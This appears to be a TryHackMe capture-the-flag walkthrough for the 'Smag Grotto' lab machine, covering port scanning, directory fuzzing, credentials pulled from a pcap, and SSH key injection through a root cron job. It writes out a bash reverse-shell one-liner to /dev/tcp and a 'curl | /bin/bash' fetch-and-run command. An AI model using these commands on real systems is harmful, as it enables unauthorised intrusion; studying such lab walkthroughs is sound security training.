In this post, we will work on the THM machine "Smag Grotto."

First, we will determine whether we have a connection to the target machine.



As we can see, we sent an ICMP trace and received it back; this means we have a connection to the machine.

We will begin scanning the ports using nmap to identify exposed services, with the following command:

```bash
sudo nmap -n --min-rate 5000 -p- -sS --open -Pn -vvv 10.66.128.160
```


As we can see, only ports 22 and 80 are open.

Now that the ports have been scanned, we will perform an exhaustive scan to determine their versions using:

```bash
nmap -n --min-rate 5000 -p22,80 -sCV 10.66.128.160 -oN target
```
As we can see, there is nothing of interest here, so let’s take a look at how the HTTP service is implemented.

Upon entering, we observe the following:


Upon opening the page, we are greeted by the following: Welcome to Smag!


The first thing that came to mind was to do a:

Ctrl + U

To inspect the page and see if there was anything in the comments that might provide a clue.


Well, there wasn't anything interesting; even though there was a CSS file, I checked it, but there’s nothing there—it’s just for the page's decoration.

The next step we’ll take is fuzzing, which helps us discover directories that aren’t visible at first glance.

We will use the tool wfuzz, which is perfect for our needs.

```bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 200 http://10.66.128.160/FUZZ
```

Once the fuzzing was complete, we only discovered one directory: mail.


We will access that directory via the URL.



It appears the employees have run into a network issue, and they have also provided us with a pcap file.

We will download it and analyze it.

We will open Wireshark to analyze the pcap.

```bash
sudo wireshark dHJhY2Uy.pcap
```

Upon opening the pcap, we can see all the requests that have been made.



The ones we are interested in are the HTTP protocols.

Since HTTP services do not encrypt the data sent to the server, it can be viewed in clear text.


We can see that we have a subdomain, a username, and a password.

This means that Virtual Hosting is being applied.

To be able to access this domain, we will need to include it in /etc/hosts.



Let's see what this subdomain contains.



Alright! As you can see, we have two resources that we couldn't access when using the IP address.

When attempting to access admin.php, we are redirected to login.php; so, let’s enter the credentials we found.

```bash
helpdesk : cH4nG3M3_n0w
```



Upon logging in, we discover what appears to be a type of webshell.



We tried running some basic commands, but it didn't show us the output.

To verify that it was a webshell, we sent ICMP traces to our own machine.

To do this, we will first set our machine to listen for ICMP traces.

```bash
sudo tcpdump -i tun0 -n icmp
```



Now, from the web shell, we send ICMP traces to verify that we have RCE.



Upon returning to our terminal, we see that we do indeed have RCE!



Now, we will gain access to the machine.

Now we will create an `index.html`, which in reality will not be HTML, but rather a bash script.



```bash
#!/usr/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```
Now we'll listen with nc



We will set up a server using Python 3 to share the index.html file.

We need to be in the same folder as index.html for this to work.

```bash
sudo python3 -m http.server 80
```



We will do it this way to bypass any restrictions, in case the web shell has any.

Now, in the web shell, we will use the following command:

```bash
curl http://IP | /bin/bash
```



This will cause `curl`  to send a web request to our server, retrieve the content of  `index.html`  (which is a Bash script), and then pipe it to  `/bin/bash`  for execution.

We press Enter and...



Let’s go! We have access to the machine.

Now we will configure the TTY; this will ensure that our connection is not interrupted when we use keyboard shortcuts.

First, we will execute:

```bash
script /dev/null bash
```


Then CTRL + Z :



And in the terminal, we will type:

```bash
stty raw -echo; fg
```



And to wrap things up, we will write:

```bash
reset xterm
```



And finally:

```bash
bash
export TERM=xterm
export SHELL=/bin/bash
```



Now that we’ve started looking for the  `user.txt`  flag, I found a user named  `jake`  in the  `/home/`  directory.



Let's see if it has the user.txt file.



Well, it seems we don’t have permission.

At this point, I began analyzing whether any SUID files existed that could be exploited.

But there was nothing interesting



I began to list any open ports that might only be visible from within the machine.

But nothing—there was nothing running, other than just the ports we had seen in the scan.



Until it occurred to me to check if there were any cron jobs running



root was executing a task that involved what appeared to be an id_rsa.pub file in the /opt directory, and it was saving it directly to the jake user account.

Then the idea occurred to me to inject our own public key.

So I went to that folder to see what permissions we had.

And yes, we have read and write permissions.



So we create our own public key to inject it right there.



Once we have created our key, we will copy the public key to inject it into the victim machine.



We edit the file using nano.



Don't be alarmed if your screen looks like this; we’ll exit nano quickly.

And we head over to the terminal on our PC.

And we write:

```bash
stty size
```
You need to enter these values ​​into the victim machine as follows (the specific values ​​will depend on your own setup).

```bash
stty row 52
stty columns 186
```



Now if you do nano again



It should have the exact proportions now.

How do we proceed? Now, we will replace this key with our own public key.

Save and exit


Now we will try to connect to the victim machine via SSH.



Now, use the key you created earlier in the following command:

```bash
ssh -i key jake@10.66.128.160
```

Press Enter, and we are now the user 'jake'.

